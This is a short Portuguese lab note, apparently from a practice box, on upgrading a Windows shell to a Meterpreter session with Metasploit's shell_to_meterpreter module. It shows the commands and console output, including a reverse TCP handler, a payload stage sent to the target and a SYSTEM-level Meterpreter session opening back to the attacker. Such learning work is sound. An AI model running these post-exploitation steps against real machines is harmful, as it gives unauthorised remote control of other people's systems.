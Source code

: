## Escalate

Como atualizar shells no metasploit

Agora eu devo aprender como fazer com que um shell se torne um meterpreter. Para isso, fui pesquisar e achei o seguinte:

- Primeiro, coloquei como segunda instância a sessão atual (Ctrl + Z)
- Usei o comando ```search shell_to_meterpreter```
```
Matching Modules
================

   #  Name                                    Disclosure Date  Rank    Check  Description
   -  ----                                    ---------------  ----    -----  -----------
   0  post/multi/manage/shell_to_meterpreter                   normal  No     Shell to Meterpreter Upgrade
```
- Depois disso, usei o módulo apresentado
- Visualizei as sessões utilizando o comando ```sessions -l```
- Mostrei as opções que teria naquela sessão utilizando ````show options```

```
Module options (post/multi/manage/shell_to_meterpreter):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   HANDLER  true             yes       Start an exploit/multi/handler to receive the connection
   LHOST                     no        IP of host that will receive the connection from the payload (Will
                                       try to auto detect).
   LPORT    4433             yes       Port for payload to connect to.
   SESSION                   yes       The session to run this module on
```

- Coloquei a sessão indicada com ```sessions -u <número da sessão>```

```
[*] Executing 'post/multi/manage/shell_to_meterpreter' on session(s): [1]

[*] Upgrading session ID: 1
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 10.9.3.128:4433 
msf6 post(multi/manage/shell_to_meterpreter) > 
[*] Sending stage (175174 bytes) to 10.10.1.121
[*] Meterpreter session 2 opened (10.9.3.128:4433 -> 10.10.1.121:49172 ) at 2022-02-18 17:24:36 -0300
[*] Stopping exploit/multi/handler
```

```
Active sessions
===============

  Id  Name  Type                     Information                                              Connection
  --  ----  ----                     -----------                                              ----------
  1         shell x64/windows        Shell Banner: Microsoft Windows [Version 6.1.7601] ----  10.9.3.128:4444 -> 10.10.229.111:49215  (10.10.229.111)
                                     -
  2         meterpreter x86/windows  NT AUTHORITY\SYSTEM @ JON-PC  
```
